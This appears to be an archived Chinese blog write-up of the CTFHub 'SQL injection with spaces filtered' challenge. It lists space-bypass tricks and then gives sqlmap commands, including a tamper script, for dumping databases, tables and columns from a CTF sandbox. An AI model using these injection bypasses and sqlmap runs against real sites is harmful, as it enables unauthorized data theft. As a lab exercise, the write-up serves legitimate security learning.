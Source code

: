 <!--yml
category: 未分类
date: 2022-04-26 14:47:07
-->

# CTFHub题解-技能树-Web（SQL注入-过滤空格）_唤变的博客-CSDN博客_sqlmap 空格过滤

> 来源：[https://blog.csdn.net/weixin_51706044/article/details/117618471](https://blog.csdn.net/weixin_51706044/article/details/117618471)

* * *

# 前言

<mark>在本文中将会采用两种注入手法：SQLmap和手注，当然记录这篇文章主要是对SQLmap的使用进行一下学习</mark>

# 过滤空格

![在这里插入图片描述](img/392ea30b0854cb4dbbf32391754293ca.png)

既然是过滤空格，绕过空格的方法：

```
1、
2、()
3、%0a 
```

![在这里插入图片描述](img/6c91685a7485c16290b26f275a801db8.png)

## SQLmap

对于SQLmap的使用可以参考[该笔者的文章](https://www.cnblogs.com/0yst3r-2046/p/10957616.html)

一、爆数据库

```
python sqlmap.py -u "http://challenge-ba6a5630047ce20b.sandbox.ctfhub.com:10800/?id=1" 
```

说明：

```
space2comment.py 
```

这是一个脚本，作用：是为了用/**/替换空格字符’ ‘
在`sqlmap`中为了绕过过滤，在`tamper`中有很多脚本用于绕过，如：`apostrophemask.py` （作用是用utf8代替引号）等

![在这里插入图片描述](img/e6683a7865e577f5ae6680b8352aabf5.png)
![在这里插入图片描述](img/38c93980017f110501222196acc97db7.png)
可以看到在这里得到了四个库名

二、爆数据表

```
python sqlmap.py -u "http://challenge-ba6a5630047ce20b.sandbox.ctfhub.com:10800/?id=1" -D "sqli" 
```

![在这里插入图片描述](img/dbc5bc8468449e38e4407d6b979acba9.png)
![在这里插入图片描述](img/4643af5e3fa0805bef30f98f2e9ad2e8.png)
得到两张表

三、爆数据库字段

```
python sqlmap.py -u "http://challenge-ba6a5630047ce20b.sandbox.ctfhub.com:10800/?id=1" -D "sqli" -T "wnilazwjye" 
```

![在这里插入图片描述](img/31260e57d2c57f225f2df611c0b958a8.png)

![在这里插入图片描述](img/1db9312eb4ed703f3319f6b4f8cef018.png)

得到flag